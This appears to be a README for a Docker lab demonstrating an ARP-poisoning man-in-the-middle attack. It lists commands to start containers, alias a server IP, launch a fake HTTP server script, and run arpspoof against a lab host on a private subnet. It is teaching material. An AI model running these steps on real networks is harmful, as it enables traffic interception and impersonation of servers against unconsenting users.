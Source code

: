 # ARP Poisoning MITM using Docker containers 

## 1. Start the Containers

```bash
(sudo) docker compose up
```

---

## 2. Add Server IP Alias

```bash
ip addr add 192.168.90.100/32 dev eth0
```

---

## 3. Launch the Fake HTTP Server

```bash
python3 labscripts/fakeserver.py
```

---

## 4. Start ARP Poisoning

```bash
arpspoof -i eth0 -t 192.168.90.101 192.168.90.100 
```